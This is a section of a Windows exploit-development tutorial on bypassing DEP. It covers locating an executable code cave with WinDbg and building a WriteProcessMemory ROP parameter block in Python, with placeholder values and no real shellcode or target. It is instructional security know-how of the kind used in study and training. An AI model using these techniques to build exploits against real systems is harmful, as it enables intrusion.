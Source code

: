 ### 8. Patching WPM Parameters

### Codecave Hunting

 Let’s recap our overall exploit structure, we will need to copy our shellcode to the codecave. We need to ensure that our WPM ROP chain doesn’t overwrite our shellcode as if there is not enough space between end of shellcode and start of wp, ESP ended up pointing inside our shellcode. Subsequent push instructions will go and corrupt our shellcode failing our exploit [https://divyanshu-mehta.gitbook.io/researchs/bypassing-dep-increasing-the-gap](https://divyanshu-mehta.gitbook.io/researchs/bypassing-dep-increasing-the-gap)

[offset] —> [writeprocessmemory] —> [eip] —> [rop] —> [shellcode]

We now need to patch in the address where WriteProcessMemory() needs to return to after it finished. Before we can proceed we need to identify the codecave where we can copy our shellcode to. The requirements would be that we should utilise a memory location with *Execute* permissions. We first check the location where our shellcode is currently residing in. We will also need to dynamically resolve the address and can potentially utilise a pivot to jump to our shellcode. 

```python

0:004> !dh processname

SECTION HEADER #1
   .text name
    **1E39 virtual size
    1000 virtual address**
    2000 size of raw data

0:004> dd processname + **virtualSize** + virtualAddress 

0:004> !vprot address
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        00001000
State:             00001000  MEM_COMMIT
Protect:           00000020  PAGE_EXECUTE_READ
Type:              01000000  MEM_IMAGE

```

Perfect it seems we have found a spot for our shellcode in the *.text* section with *EXECUTE* permissions. Further calculations show we have around XXX bytes for our shellcode. We therefor proceed with our shellcode location as XXXX. 

### Shellcode Return Address

Now that we have our shellcode location, we can proceed in writing the location into the dummy address. We update our WPM as follows:

```python
va  = pack("<L", (0x41414141))  # WriteProcessMemory address
va += pack("<L", (0x42424242))  # shellcode return address to return to after WriteProcessMemory is called
va += pack("<L", (0xffffffff))  # hProcess (pseudo Process handle)
va += pack("<L", (0x44444444))  # lpBaseAddress (Code cave address)
va += pack("<L", (0x45454545))  # lpBuffer (shellcode address)
va += pack("<L", (0x46464646))  # nSize (size of shellcode)
va += pack("<L", (0x47474747))  # lpNumberOfBytesWritten (writable memory address, i.e. !dh -a MODULE)
```
